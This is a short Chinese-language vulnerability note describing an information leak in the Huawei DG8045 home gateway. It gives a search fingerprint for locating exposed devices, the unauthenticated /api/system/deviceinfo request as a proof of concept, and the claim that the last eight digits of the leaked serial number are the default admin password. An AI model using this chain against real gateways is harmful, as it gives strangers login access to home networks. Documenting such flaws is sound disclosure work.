

# Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

<a-checkbox checked>Huawei DG8045</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="DG8045-Home-Gateway-DG8045"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648696791637-1a79e231-0011-4736-ba99-d8f60c3edb90.png)

验证POC

```php
/api/system/deviceinfo
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648697448559-e9f4657e-ef69-40d3-aa61-abc87a2a0f53.png)

SerialNumber 后8位即为初始密码
